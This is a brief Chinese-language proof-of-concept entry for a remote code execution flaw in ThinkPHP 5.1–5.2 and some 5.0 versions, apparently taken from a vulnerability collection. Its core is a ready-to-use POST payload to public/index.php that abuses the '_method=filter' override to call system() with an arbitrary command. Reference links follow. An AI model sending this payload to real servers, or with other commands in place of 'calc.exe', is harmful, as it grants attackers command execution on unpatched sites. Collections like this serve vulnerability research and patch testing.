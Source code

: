 ## 漏洞类型

- RCE

## 影响范围

Thinkphp5.1～5.2全版本，5.0.*部分版本中也适用。

## POC|EXP

```txt
(post)public/index.php

(data)c=system&f=calc.exe&_method=filter
```

## 参考链接


> https://xz.aliyun.com/t/3868
>
> https://www.secpulse.com/archives/95952.html